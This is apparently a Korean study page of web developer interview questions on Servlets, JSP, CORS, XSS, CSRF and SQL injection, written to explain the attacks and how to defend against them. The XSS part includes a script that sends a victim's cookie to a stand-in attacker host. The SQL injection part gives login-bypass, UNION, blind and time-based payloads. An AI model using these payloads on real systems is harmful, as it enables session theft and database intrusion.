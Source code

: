 ## Servlet이란 어떤 것인지

<details>
<summary>생각해보고 답 확인</summary>

<p align="center">
<img src="https://github.com/dnzp75/Java/assets/105201451/de3307b6-2fa2-411d-93e8-eaa763f1b98e" width="550" height="300"/>

`서블릿`은 JSP 표준이 나오기 전에 만들어진 표준으로 자바로 웹 어플리케이션을 개발할 수 있도록 하기 위해 만들어졌다. 서블릿을 이용하면 자바 클래스를 이용해서 웹 어플리케이션을 개발하게 된다. 

웹에 다양한 기능이 요구되면서 정적인 자료뿐만 아니라 사용자 요구에 맞춘 동적인 페이지들을 만들 필요가 생겼다. 이를 위해 만들어진 것이 바로 서블릿이다.

웹 요청과 응답의 흐름을 간단한 메서드 호출만으로 체계적으로 다룰 수 있게 해준다.

   ※ 서블릿은 서버에서 실행되다가 웹 브라우저에서 요청을 하면 해당 기능을 수행한 후 웹 브라우저에 결과를 전송한다.

▶ 서블릿(Servlet)의 주요 특징
- 클라이언트의 Request에 대해 동적으로 작동하는 웹 어플리케이션 컴포넌트
- 기존의 정적 웹 프로그램의 문제점을 보완하여 동적인 여러 가지 기능을 제공
- JAVA의 스레드를 이용하여 동작
- MVC패턴에서 컨트롤러로 이용됨
- 컨테이너에서 실행
- 보안 기능을 적용하기 쉬움


### 2. 서블릿의 동작과정

<p align="center">
<img src="https://github.com/dnzp75/Java/assets/105201451/99135836-2f0e-4c04-b1a7-5eaf65f6b423" width="550" height="300"/>

클라이언트가 웹 서버에 요청하면 / 웹 서버는 그 요청을 톰캣과 같은 [WAS]에 위임한다. / 그러면 WAS는 각 요청에 해당하는 서블릿을 실행한다. / 그리고 서블릿은 요청에 대한 기능을 수행한 후 결과를 반환하여 클라이언트에 전송한다.

```
1. 클라이언트 요청
2. HttpServletRequest, HttpServletResponse 객체 생성
3. Web.xml이 어느 서블릿에 대해 요청한 것인지 탐색
4. 해당하는 서블릿에서 service() 메소드 호출
5. doGet() 또는 doPost() 호출
6. 동적 페이지 생성 후 ServletResponse 객체에 응답 전송
7. HttpServletRequest, HttpServletResponse 객체 소멸
```

※ web.xml : 서블릿을 작성했다면 / 해당 서블릿을 사용자가 요청한 경로와 맵핑시켜야 / WAS에서 맵핑된 정보를 읽어서 브라우저에서 해당 URL로 HTTP요청 시 / 해당 서블릿으로 요청을 전달해 줄 수 있다. 소스를 분석할 때도 가장 먼저 확인해봐야 할 부분이다. 톰캣을 예로 들면 웹 어플리케이션 서비스 처리에 대해 정의된 환경 설정 파일이 server디렉터리의 web.xml에 있다.

### ▶ 서블릿 형식

```java
public class FirstServlet extends HttpServlet {
	@Override
    public void init() {
    ...
	}

    @Override
    public void doGet(HttpServletRequest req, HttpServletResponse resp) {
    ...
    }

    @Override
    public void destroy() {
    ...
    }
}
```

### 3. 서블릿 생명주기

서블릿도 자바 클래스이므로 실행하면 [ 초기화부터 서비스 수행 후 소멸하기까지의 과정을 거친다.] 

이 과정을 서블릿의 생명주기라하며 각 단계마다 **호출되어 기능을 수행하는 콜백 메서드**를 서블릿 생명주기 메서드라한다.

1. 클라이언트의 요청이 들어오면  / 컨테이너는 해당 서블릿이 메모리에 있는지 확인하고, 없을 경우 init()메서드를 호출하여 메모리에 적재한다. init()은 처음 한번만 실행되기 때문에, 서블릿의 스레드에서 공통적으로 사용해야 하는 것이 있다면 오버라이딩 하여 구현하면 된다. 실행 중 서블릿이 변경될 경우, 기존 서블릿을 destroy()하고 init()을 통해 새로운 내용을 다시 메모리에 적재한다.

2. init()이 호출된 후 클라이언트의 요청에 따라서 service() 메소드를 통해 요청에 대한 응답이 doGet()과 doPost()로 분기된다. 이 때 서블릿 컨테이너가 클라이언트의 요청이 오면 가장 먼저 처리하는 과정으로 생성된 HttpServletRequest, HttpServleResponse에 의해 request와 response 객체가 제공된다.

3. 컨테이너가 서블릿에 종료 요청을 하면 destroy() 메소드가 호출되는데 마찬가지로 한번만 실행되며, 종료시에 처리해야 하는 작업들은 destroy() 메소드를 오버라이딩하여 구현하면 된다.

### ▶ 서블릿 생명주기 < 메서드 >

**초기화 : init()**

- 서블릿 요청 시 맨 처음 한 번만 호출된다.
- 서블릿 생성 시 초기화 작업을 주로 수행한다.

**작업 수행 : doGet(), doPost()**

- 서블릿 요청 시 매번 호출된다.
- 실제로 클라이언트가 요청하는 작업을 수행한다.

**종료 : destroy()**

- 서블릿이 기능을 수행하고 메모리에서 소멸될 때 호출된다.
- 서블릿의 마무리 작업을 주로 수행한다.

### 4. 서블릿 컨테이너

- 서블릿 컨테이너란, 구현되어 있는 servlet 클래스의 규칙에 맞게 서블릿을 담고 관리해주는 컨테이너다.

- 클라이언트에서 요청을 하면 컨테이너는 HttpServletRequest, HttpServletResponse 두 객체를 생성하여 post, get여부에 따라 동적인 페이지를 생성하여 응답을 보낸다.

</details>

### Servlet에서 리퀘스트(요청)를 받으면 서블릿에 있는 어떤 메서드들이 호출되는지 설명하라 

### Servlet의 생명주기에 대해 설명하라 

### Servlet이 호출될 때 처리 과정이 어떻게 되는가? 

### JSP 동작 과정에서 Servlet이 어떻게 사용되는지 설명하라. 

### JSP 처리 과정

<details>
<summary>생각해보고 답 확인</summary>

웹 브라우저에 JSP 페이지에 해당하는 URL을 입력하면, 톰캣 서버는 다음과 같은 과정을 거쳐 JSP 페이지를 실행한다.

<p align="center">
<img src="https://github.com/dnzp75/Java/assets/105201451/6cfb71bc-5c98-4d58-a7e7-cef9c28af427" width="550" height="300"/>


WAS는 JSP 페이지에 대한 요청이 들어오면 다음과 같은 처리를 한다.

JSP에 해당하는 서블릿이 존재하지 않을 경우(과정 1.1)

- JSP 페이지로부터 자바 코드를 생성한다. (과정 1.2)
- 자바 코드를 컴파일해서 서블릿 클래스를 생성한다. (과정 1.3)
- 서블릿에 클라이언트 요청을 전달한다. (과정 2.1)
- 서블릿이 요청을 처리한 결과를 응답으로 생성한다. (과정 2.2)
- 응답을 웹 브라우저에 전송한다. (과정 3)

JSP에 해당하는 서블릿이 존재하는 경우(즉, 이미 과정 1.1~1.3을 거친 경우)

- 서블릿에 클라이언트 요청을 전달한다. (과정 2.1)
- 서블릿이 요청을 처리한 결과를 응답으로 생성한다. (과정 2.2)
- 응답을 웹 브라우저에 전송한다. (과정 3)

즉, JSP 페이지를 요청할 때에는 JSP를 직접 실행하는 것이 아니라, JSP를 자바 소스 코드로 변환한 뒤 컴파일해서 생성한 서블릿을 생성하는 것이다. 여기서 JSP 페이지를 자바 코드로 변경하는 단계를 "변환(translation)단계"(과정 1.2)라고 하며, 자바 코드를 서블릿 클래스로 변경하는 단계를 "컴파일(compile)단계"(과정 1.3)라고 한다.

톰캣은 work 폴더에 JSP를 변환한 자바 소스 코드와 서블릿 클래스를 생성한다. 예를 들어, 앞서 3장에서 실행했던 JSP의 자바 소스 코드와 서블릿 클래스는 다음 폴더에서 찾을 수 있다.

```
C:\apache-tomcat-8.0.2\work\Catalina\localhost\chap03\org\apache\jsp
```

위 폴더를 보면 JSP 파일을 자바 코드로 변환한 소스 코드와 컴파일된 클래스 파일을 발견할 수 있다.

JSP 페이지를 변경하면 JSP 페이지는 기존에 이미 서블릿이 생성되었는지에 상관없이 위의 과정을 거쳐 JSP 페이지로부터 서블릿 클래스를 다시 생성한다.

> JSP를 실행한다는 말은 곧 JSP 페이지를 컴파일한 결과인 서블릿 클래스를 실행한다는 의미가 된다.
>

</details>





## CORS란 무엇인지?

<details>
<summary>생각해보고 답 확인</summary>

- 브라우저 환경에서만 적용되며 한 출처가 다른 출처에 요청을 할 수 있도록 하는 보안 메커니즘

- 모든 브라우저는 단일 출처 정책(Single Origin Policy)을 따른다

- 즉, 기본적으로 다른 출처에 요청할 수 없지만 서버가 적절하게 구성된 CORS 헤더를 제공하는 경우 선택적으로 교차 출처 정책을 사용할 수 있습니다.

 ### 브라우저에서만 적용된다는 말은 무슨 말인가?
 
- 브라우저에서 다른 서버에서 요청할 경우에 해당되고, 브라우저를 거치지 않고 **서버 간 통신**을 할 때는 이 정책이 적용되지 않는다.

### 단일 출처 정책(Single Origin Policy)이 무엇인가?

- **origin(출처)** 이란 scheme(protocol), host(domain), port 로 구성

- 예를들어, https://www.google.com/maps 라는 주소가 있다고하면 [ protocol은 https:// ] [ Host는 www.google.com ] [ Port는 :443 ]

- 동일 출처(Same Origin) 란 scheme, host, port 가 모두 같을때를 말한다.

- SOP(Same-Origin Policy) 이란 같은 출처에서만 리소스를 공유할 수 있다는 규칙

### 다른 origin에 있는 리소스를 허용하지 않는 이유는 무엇인가?

- ( = 이런 정책이 왜 존재할까?) 만약 다른 출처의 어플리케이션이 서로 통신하는 것에 대해 아무런 제약도 존재하지 않는다면 악의를 가진 사용자가 소스 코드를 보고 CSRF(Cross-Site Request Forgery)나 XSS(Cross-Site Scripting)와 같은 방법을 사용하여 정보를 탈취할 수 있다.

- CORS는 다른 출처의 리소스가 필요한 경우, SOP를 우회하기 위한 여러가지 방법 중 가장 권장되는 방법이다.

### **5. 브라우저의 CORS 동작원리**

1. 브라우저는 요청 헤더에 Origin이라는 필드에 본인 출처를 넣어서 보낸다.`(cookie를 사용하는 보안과 관련된 것은 credentials 헤더를 true로 보내줘야 한다.)`
2. 서버는 응답 헤더에 Access-Control-Allow-Origin에 본인이 허용하는 출처를 담아서 응답하게 된다.`(cookie와 같은 보안과 관련된 것은 Access-Control-Allow-Credentials를 true로 응답해야 한다.)`
3. 브라우저는 Origin과 Access-Control-Allow-Origin을 비교하고, 맞는지 틀린지 검사만 한다.
4. 맞으면 그대로 응답을 사용하고, 틀리다면 에러를 뱉고 응답을 버린다.

### **6. Simple Request**

위에서 설명한 CORS의 동작 원리는 GET, POST와 같은 일정 조건의 요청들에 사용된다.

이것을 simple request라고 한다. 

### **6.1. Preflight 요청**

하지만 delete, put고 같은 것들은 기존 데이터에 영향을 주는 것이기 때문에

request 전에 Preflight 요청이란걸 먼저 보내서 본 요청이 안전한지 확인하고, 이상이 없다면 요청을 보낼 수 있다.

아무래도 PUT, DELETE와 같이 서버의 데이터에 영향을 주는 행위는 위험하기 때문에

사전 요청을 하는 것인데 서버에게 해당 request origin에 DELETE를 허용할 것인지 묻는 것이다.

GET같은 경우는 데이터에 영향이 없기 때문에 응답을 버리기만 하면 되는데 DELETE를 데이터를 변경해버리기 때문이다.

https://chanto11.tistory.com/67

https://ingg.dev/cors/

</details>




------
## XSS란 무엇인지?

<details>
<summary>생각해보고 답 확인</summary>


- 공격자가 클라이언트 측 스크립트를 웹 페이지에 삽입하는 공격

- 가장 대표적인 사례가 게시글이다. 게시글에 글을 입력할 때, 스크립트 파일을 포함하여, 해당 게시글을 클릭한 사용자의 브라우저에서 해당 스크립트가 실행되도록 하는것이다.

- XSS 를 사용하여 동일 출처 정책 및 CSRF 보호를 모두 우회 할 수 있습니다.

- XSS를 방지하기 위해서는 반드시 Script 문자 필터링이 필요하다.

- XSS 는 출력부분에서 가장 잘 처리할 수 있습니다.

[ 입력 -> 데이터베이스 -> **출력(이스케이프 처리)** ]

### esacpe를 처리한다 라는 말을 들어보았는가? 이게 어떤걸 말하는가?

특정 문자를 원래의 기능에서 벗어나게 변환하는 행위를 **이스케이프(Escape)** 라고 한다.

HTML은 '<'을 태그의 시작으로 인식하기 때문에 

HTML에서 제대로 렌더링되지 않는 상황들을 고려해 원래의 기능에서 벗어난 문자열로 변환하여 의도대로 구문 분석을 하도록 이스케이프 사용


**그런데 이스케이프가 어떻게 XSS 공격을 방지할 수 있을까?** 

크로스 사이트 스크립팅 공격은 블로그나 게시판 같은 서비스에서 주로 일어나며 여러 사람들이 보는 글에 **스크립트**를 주입해서 사용자의 정보(쿠키, 세션)를 탈취하거나 비정상적인 기능을 수행하게 한다.

예를 들어 글을 쓸 때

1. 제목과 글을 입력해서 글쓰기를 클릭하면
2. 웹 서버에선 해당 데이터를 받아서 DB에 저장한다.
3. 다른 사용자가 해당 서버에 접속해 DB에 있는 해당 글을 읽게 되면
4. 그 때 써놓은 내용을 볼 수 있다.

이런 과정에서 글 대신 **스크립트 언어**를 써서 다른 사용자가 해당 글을 읽을 때 **스크립트 언어가 실행**되어 피해를 입게 하는 것이 XSS 공격이다.

스크립트 코드가 실행 되면 피해자의 쿠키값을 해커의 서버 주소인 http://hackerServer.com에 그대로 전부 보내게 되고 해당 정보를 이용해 악용할 수 있는 것이다. 

렌더링이 되기 전(사용자에게 보이기 전)  / 이스케이프된 모든 값은 브라우저에선 아래와 같이 입력한 그대로 보이게 되지만 

HTML 본연의 태그나 스크립트 기능이 제거가 되기 때문에 XSS(Cross Site Scripting) 공격을 방지할 수 있다.

```
<!-- 이스케이프 후 브라우저에서 보이는 화면-->
<script>
  let xmlHttp = new XMLHttpRequest();
  const url =
    'http://hackerServer.com?victimCookie=' +
    document.cookie;
  xmlHttp.open('GET', url);
  xmlHttp.send();
</script>
```

https://wikidocs.net/127508

https://onlydev.tistory.com/78

### **■ 공격 유형에 따른 분류**

공격자가 삽입한 악성스크립트가 사용자 측에서 어떻게 동작하는지에 따라 크게 세 가지로 분류할 수 있으며 각각의 개념과 동작 과정은 다음과 같다.


### **Stored XSS (저장형 크로스사이트 스크립팅)**

- 공격자의 악성스크립트가 데이터베이스에 저장되고 이 값을 출력하는 페이지에서 피해가 발생하는 취약점이다.

- 공격자는 악성스크립트가 포함된 게시물을 작성하여 게시판 등 사용자가 접근할 수 있는 페이지에 업로드한다. 

- 이때 사용자가 악성스크립트가 포함된 게시물을 요청하면, 공격자가 삽입한 악성스크립트가 사용자 측에서 동작하게 된다.

- 공격자의 악성스크립트가 서버에 저장되어 불특정 다수를 대상으로 공격에 이용될 수 있어 Reflected XSS보다 공격 대상의 범위가 훨씬 크다.

<p align="center">
<img src="https://github.com/dnzp75/Java/assets/105201451/68792e47-656d-47ff-b529-9e0f6f6b4777" width="500" height="300"/>
  
[Stored XSS]

<p align="center">
<img src="https://github.com/dnzp75/Java/assets/105201451/46b79afb-568a-4364-926d-5479bb3ff3da" width="400" height="300"/>

Stored XSS 공격 과정은 다음을 통해 확인할 수 있다.

[Stored XSS 공격 과정]


### **Reflected XSS (반사형 크로스사이트 스크립팅)**

- 사용자가 요청한 악성스크립트가 사용자 측에서 반사(Reflected)되어 동작하는 취약점으로, 

- 공격자의 악성스크립트가 데이터베이스와 같은 저장소에 별도로 저장되지 않고 사용자의 화면에 즉시 출력되면서 피해가 발생한다.

- 공격자는 악성스크립트가 포함된 URL을 이메일, 메신저 등을 통해 사용자가 클릭할 수 있도록 유도한다. 

- 사용자가 악성스크립트가 삽입된 URL을 클릭하거나 공격자에 의해 악의적으로 조작된 게시물을 클릭했을 때 사용자의 브라우저에서 악성스크립트가 실행된다.

<p align="center">
<img src="https://github.com/dnzp75/Java/assets/105201451/7fd0cd4a-127f-4e92-b672-735dd669aaf4" width="500" height="300"/>


[Reflected XSS]

Reflected XSS 공격 과정은 다음을 통해 확인할 수 있다.

<p align="center">
<img src="https://github.com/dnzp75/Java/assets/105201451/fada8137-1912-4d96-8d54-44b8f244752b" width="400" height="300"/>

[Reflected XSS 공격 과정]


### **DOM Based XSS (DOM 기반 크로스사이트 스크립팅)**

- 공격자의 악성스크립트가 DOM 영역에서 실행됨으로써 서버와의 상호작용 없이 브라우저 자체에서 악성스크립트가 실행되는 취약점이다. 

- DOM 영역에 변화가 생기면 브라우저는 서버로 패킷을 보내지 않고 DOM 영역에서 페이지를 변환시킨다.

- 따라서 DOM의 일부로 실행되기 때문에 브라우저 자체에서 악성스크립트가 실행된다.

- DOM(Document Object Model, 문서 객체 모델) 이란?

브라우저가 웹 페이지를 렌더링 하는데 사용하는 모델로 HTML 및 XML 문서에 접근하기 위한 인터페이스이다. 브라우저는 HTML 문서를 읽고 해석한 결과를 DOM 형태로 재구성하여 사용자에게 제공한다.

</details>


------
## CSRF란 무엇인지?

<details>
<summary>생각해보고 답 확인</summary>

- 사용자가 자신의 의지와 무관하게 공격자가 의도한 행동을 해서 특정 웹 페이지를 보안에 취약하게 하거나 수정, 삭제 등의 작업을 하게 만드는 공격 방법.

- 공격 난이도가 높지 않아 흔히 사용된다.

- XSS을 이용한 공격이 사용자가 특정 웹사이트를 신용하는 점을 노린 것이라면,

- CSRF는 특정 웹사이트가 사용자의 웹 브라우저를 신용하는 상태를 노린 것이다.

https://devscb.tistory.com/123

### **1.2. CSRF 전제 조건과 공격 과정**

CSRF 공격을 위한 조건과 과정에 대해 알아보겠습니다. CSRF 공격을 시도하기 위해선 아래와 같은 몇 가지 조건이 필요합니다.

- 사용자가 보안이 취약한 서버로부터 이미 인증을 받은 상태여야 합니다.
- 쿠키 기반으로 서버 세션 정보를 획득할 수 있어야 합니다.
- 공격자는 서버를 공격하기 위한 요청 방법에 대해 미리 파악하고 있어야 합니다. 예상치 못한 파라미터가 있으면 불가능합니다.

위와 같은 조건이 만족되면 다음과 같은 과정을 통해 CSRF 공격이 수행됩니다.

1. 사용자는 보안이 취약한 서버에 로그인합니다.
2. 로그인 이후 서버에 저장된 세션 정보를 사용할 수 있는 `sessionID`가 사용자 브라우저 쿠키에 저장됩니다.
3. 공격자는 서버에 인증된 브라우저의 사용자가 악성 스크립트 페이지를 누르도록 유도합니다.
    - 해당 악성 스크립트가 담긴 페이지를 클릭하도록 유도하는 방법은 다양한 것 같으나 몇 가지 유형을 정리하자면 다음과 같습니다.
    - 게시판에 악성 스크립트를 게시글로 작성하여 관리자 혹은 다른 사용자들이 게시글을 클릭하도록 유도합니다.
    - 메일 등으로 악성 스크립트를 직접 전달하거나, 악성 스크립트가 적힌 페이지 링크를 전달합니다.
4. 사용자가 악성 스크립트가 작성된 페이지 접근시 쿠키에 저장된 `sessionID`는 브라우저에 의해 자동적으로 함께 서버로 요청됩니다.
5. 서버는 쿠키에 담긴 `sessionID`를 통해 해당 요청이 인증된 사용자로부터 온 것으로 판단하고 처리합니다.

<p align="center">
<img src="https://github.com/dnzp75/Java/assets/105201451/393c5291-195d-41f9-8052-708a74b4f92b" width="500" height="300"/>

### CSRF를 방어하는 방법이 무엇이 있는지 설명하라

**Referrer 검증**

서버에서 사용자의 요청에 `Referrer` 정보를 확인하는 방법이 있습니다. 요청 헤더(request header) 정보에서 `Referrer` 정보를 확인할 수 있습니다. 보통이라면 호스트(host)와 `Referrer` 값이 일치하므로 둘을 비교합니다. CSRF 공격의 대부분 `Referrer` 값에 대한 검증만으로 방어가 가능하다고 합니다.

 **CSRF 토큰 검증**

임의의 CSRF 토큰을 만들어 세션에 저장합니다. 요청하는 페이지에 `hidden` 타입 input 태그를 이용해 토큰 값을 함께 전달합니다. 이후 서버에서 세션에 저장된 CSRF 토큰 값과 요청 파라미터에 담긴 토큰 값을 비교합니다

 **CAPTCHA 사용**

이미지를 보여주고 그 이미지에 해당하는 문자/숫자/그림이 아니라면 요청을 거부하는 방법이다.


</details>




------
## SQL Injection이란 무엇인지?

<details>
<summary>생각해보고 답 확인</summary>

# SQL Injection(SQL 인젝션, SQL 삽입)이란 ?

악의적인 사용자가 응용 프로그램 보안 상의 **허점**을 의도적으로 이용해, 

악의적인 SQL문을 주입하고 실행되게 하여 데이터베이스가 비정상적인 동작을 하도록 조작하는 행위입니다.

주로 사용자가 입력한 데이터를 제대로 **필터링**, **이스케이핑**하지 못했을 경우에 발생합니다. 

이러한 injection 계열의 취약점들은 테스트를 통해 발견하기는 힘들지만 **스캐닝툴**이나 **코드 검증절차**를 거치면 보통 쉽게 발견되기 때문에 탐지하기는 쉬운 편입니다.

인젝션 공격은 OWASP에서도 1순위로 분류되었던 만큼 공격이 성공할 경우 큰 피해를 입힐 수 있어 보안에 각별한 주의가 필요합니다.

# 공격 종류 및 방법

## 1 ) Error based SQL Injection (가장 대중적인 기법)

 SQL 쿼리에 **고의적으로 오류를 발생**시키고 / 이때 출력되는 에러의 내용으로 **필요한 정보를 찾아내는 공격 기법**

기본적으로 '(싱글 쿼테이션) 또는 "(더블 쿼테이션)을 이용하여 GET, POST 요청 필드나 HTTP 헤더 값, 쿠키값 등에 삽입하여 **SQL 에러를 통해 정보를 예상**하게 됩니다. GROUP BY나 HAVING 등을 이용하기도 합니다.

### 로그인 공격 예시

로그인 페이지가 있고, 로그인을 할 때 USER_ID와 INPUT_PW를 입력받아 로그인이 진행된다고 했을 때

- 기본 쿼리문

```sql
SELECT user FROM Users WHERE uid = 'USRE_ID' AND upw = 'INPUT_PW';
```

- 공격 예시 : 로그인 창의 ID 부분에 'OR 1 = 1 --를 입력합니다.

```sql
SELECT user FROM Users WHERE uid = '' OR 1 = 1 --USRE_ID' AND upw = 'INPUT_PW';
```

- WHERE절에 있는 싱글 쿼터를 닫아주게 되고,
- OR 1 = 1로 모두 참을 만들어 준 후
- -를 이용해 그 뒤의 모든 쿼리문을 주석처리해주게 됩니다.

결과적으로 Users 테이블에 있는 모든 정보를 조회하게 되며 가장 먼저 만들어진 계정(보통 관리자 계정)으로 로그인할 수 있게 되어 관리자 계정을 탈취하게 됩니다.

## 2 ) Union base SQL Injection

UNION 키워드를 사용하여 원래의 요청에 추가 정보를 얻는 공격 기법으로 UNION 하려는 두 테이블의 컬럼 수와 데이터 형식이 같아야 합니다. 

ORDER BY 절이나 HAVING을 이용한 오류 메시지를 통해 컬럼의 수를 유추할 수 있습니다.

### 게시글 조회 공격 예시

게시판이 있고, 게시글을 검색할 때 INPUT을 받아 검색이 진행된다고 했을 때

- 기본 쿼리문

```sql
SELECT * FROM Board WHERE title LIKE '%INPUT%' OR contents '%INPUT%'
```

- 공격 예시 : 검색 창에 'UNION SELECT null, id, passwd FROM User를 -- 입력합니다.

```sql
SELECT * FROM Board WHERE title LIKE '%' UNION SELECT null, id, passwd FROM Users --%' OR contents '%INPUT%'
```

사전 공격을 통해 컬럼명과 테이블명을 얻은 후 사용자의 ID와 PW를 요청하는 쿼리문을 함께 입력하게 되면 사용자의 개인 정보가 게시글과 함께 보이게 됩니다.

## 3) Blind SQL Injection

에러가 발생되지 않는 사이트에서 데이터 베이스로부터 특정한 값이나 데이터를 전달받지 않고, 단순히 **참과 거짓의 정보만 알 수 있을 때 사용하는 공격 기법**입니다.

 limit, SUBSTR, ASCII를 사용해서 조건이 참이면 페이지가 정상적으로 출력되고 그렇지 않을 경우 출력되지 않음으로 구분이 가능합니다.

최근에는 에러 메시지를 출력하지 않는 웹 서버를 구축하고 있어 주로 사용하는 방식입니다.

### Boolean 기반 공격 예시

- 기본 쿼리문

```sql
SELECT user FROM Users WHERE uid = 'USRE_ID' AND upw = 'INPUT_PW';
```

- 공격 예시 : 로그인 폼에 DB 테이블 명을 알아내기 위한 쿼리문을 주입, 이때 임의로 가입한 idd3이라는 아이디와 함께 구문을 주입합니다.

```sql
SELECT * FROM Users WHERE uid = 'idd3' and ASCII(SUBSTR((SELECT name FROM information_schema.tables WHERE table_type='base table' limit 0,1),1,1)) > 100 -- USRE_ID' AND upw = 'INPUT_PW';
```

- limit키워드를 통해 하나의 테이블만 조회하고, SUBSTR함수로 첫 글자만 찾게 됩니다.
- ASCII를 통해 값이 변환되고 조회되는 테이블 명의 첫 번째 글자가 U면 테이블이 조회됩니다.
- 참(로그인)이 될 때까지 100 숫자를 변경하며 비교를 하게 됩니다.
- 자동화 스크립트로 만들어 단기간 내에 테이블 명을 알아낼 수도 있습니다.

### Time 기반 공격 예시

- 기본 쿼리문

```sql
SELECT user FROM Users WHERE uid = 'USRE_ID' AND upw = 'INPUT_PW';
```

- 공격 예시

```sql
SELECT user FROM Users WHERE uid = 'idd3' OR (LENGTH(DATABASE())=1 AND SLEEP(2)) -- USRE_ID' AND upw = 'INPUT_PW';
```

- 숫자 1을 조작해 현재 사용하고 있는 데이터 베이스의 길이를 알아낼 수 있습니다.
- LENGTH를 사용해 문자열 길이를 반환하도록 합니다.
- DATABASE()를 사용해 데이터베이스의 이름을 반환합니다.

SLEEP단어가 치환 처리되었을 경우, BENCHMARK나 WAIT함수를 사용할 수 있습니다.

## 4 ) Stored Procedure based SQL Injection

저장 프로시저(Stored Procedure)는 쿼리들을 모아 하나의 함수처럼 사용하기 위한 것입니다.

웹에서 저장 프로시저에 대한 접근 권한을 가짐으로써 실행이 가능해집니다. 

공격 난도가 높으나 성공 시 직접적인 피해를 입힐 수 있는 공격 기법입니다.

## 5) Mass SQL Injection

한 번의 공격으로 다량의 DB가 조작해 큰 피해를 입히는 공격 기법입니다.

# 대응 방안

### 1 ) 입력값 검증

사용자의 입력을 받을 때 검증 로직을 추가하여 값이 유효한지 검증합니다.

- ', ", #, --, = 등 특수문자와 명령어 필터링
- 데이터 길이 제한

### 2 ) 저장 프로시저 사용

동적 SQL 쿼리를 생성하지 않는 것이 SQL 인젝션을 막기 위한 가장 효과적인 방법일 것입니다. 저장 프로시저를 사용하여 지정된 형식의 데이터가 아니면 쿼리가 실행되지 않도록 합니다.

### 3 ) 서버 보안

- 데이터 베이스 권한 제한합니다.
- 신뢰 가능한 네트워크와 서버에 대해서만 접근을 허용합니다.
- SQL 서버 오류 발생 시, 해당하는 에러 메시지를 볼 수 없도록 합니다.

</details>
